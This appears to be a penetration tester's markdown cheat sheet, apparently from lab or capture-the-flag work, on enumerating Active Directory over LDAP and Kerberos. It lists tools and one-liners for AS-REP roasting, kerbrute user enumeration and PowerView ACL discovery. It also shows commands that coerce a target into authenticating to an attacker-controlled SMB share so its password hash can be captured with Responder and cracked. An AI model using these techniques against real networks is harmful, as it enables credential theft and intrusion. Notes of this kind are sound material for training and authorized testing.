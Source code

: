 # ldap - Enumeration

## Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>

## Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

## Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap


## When we have a domain username, but no password

Do a gci request to get the user hash (and use it in other protocols, and try to crack it)

gci \\<mylocalhostip>\share\file #share and file dont have to exist

Run impacket-GetNPUsers

   https://github.com/Andre92Marcos/tools/blob/master/impacket/getNPUsers.md

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


Use the snaffler tool


## Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>

## If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


## If we are not finding anythin with bloodhound

Load powesploit PowerView.ps1 from:

   https://github.com/PowerShellMafia/PowerSploit/tree/dev

And then run 

   Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

This might find relations that bloodhound missed